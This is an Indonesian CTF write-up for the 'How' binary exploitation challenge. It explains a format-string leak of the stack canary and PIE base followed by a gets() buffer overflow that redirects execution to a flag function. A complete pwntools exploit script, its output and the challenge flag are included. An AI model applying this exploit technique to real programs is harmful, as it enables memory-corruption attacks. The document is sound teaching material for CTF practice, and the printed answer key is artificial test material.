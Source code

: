 # How (264 Pts)

## Deskripsi
Apakah kamu tahu bagaimana caranya?

Author : **Inlandsche**

## Hint 
Tidak ada

## Proof of Concept
Pertama, lakukan analisa kode program dengan menggunakan software disassambler (`ghidra/IDA`) atau dengan `gdb`.
Program memiliki kelemahan pada fungsi `printf()` dan `gets()` sehingga dapat dilakukan overflow.

Pada program ini, terdapat proteksi dengan CANARY dan PIE. Kita bisa memanfaatkan kelemahan `printf()` untuk mendapatkannya. Untuk mendapatkan CANARY dan base address, kita harus memahami fungsi `strcspn()` pada bahasa C. Pada soal ini terdapat kondisi jika `strcspn()` sama dengan 40, maka program akan mengeluarkan fungsi `printf()` dan address dari fungsi `program()` sehingga kita bisa mendapatkan CANARY dan base address.


Script python untuk menyelesaikannya

```
from pwn import *

elf = ELF('./how')
p = elf.process()

# strcspn dan mendapatkan canary
inp = b"x"*40 + b"Q %47$p"

p.sendline(inp)
p.recvuntil(b"Hi, how was your day? xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxQ ")

canary = int(p.recvline().rstrip(), 16)
log.info("Canary found: [%s]", hex(canary))

p.recvuntil(b"You got the program address ")

program_addr = int(p.recvline().rstrip(), 16)
log.info("Address of program() found: [%s]", hex(program_addr))

base = program_addr - elf.symbols['program']
log.info("Base address found: [%s]", hex(base))

# Payload
canary_offset = 264

# address pemanggilan flag didapatkan dari disassamble fungsi program()
flaggg = 0x0000000000001297

payload = b"x"*canary_offset
payload += p64(canary)

# mengisi RBP dengan sembarang input
payload += b"RRBBBBPP"
# merubah return address untuk memanggil fungsi pemanggilan flag
payload += p64(flaggg + base)

p.sendline(payload)
p.interactive()
```

Output dari script tersebut

```
[*] '/home/inlandsche/CySec/Hology/Hology Soal/Soal 2/how'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[x] Starting local process '/home/inlandsche/CySec/Hology/Hology Soal/Soal 2/how'
[+] Starting local process '/home/inlandsche/CySec/Hology/Hology Soal/Soal 2/how': pid 8260
[*] Canary found: [0x5132475db3b2c200]
[*] Address of program() found: [0x55b43c5361b9]
[*] Base address found: [0x55b43c535000]
[*] Switching to interactive mode
Do you wanna say something?
>> Thanks :)
hology4{strcspn_4d4Lah_k0eNtJ1}
[*] Process '/home/inlandsche/CySec/Hology/Hology Soal/Soal 2/how' stopped with exit code 0 (pid 8260)
[*] Got EOF while reading in interactive
```

<details>
<summary>Flag : </summary>
hology4{strcspn_4d4Lah_k0eNtJ1}
</details>

## Referensi
Soal iFest (wangy), Soal Hacktivity (retcheck)
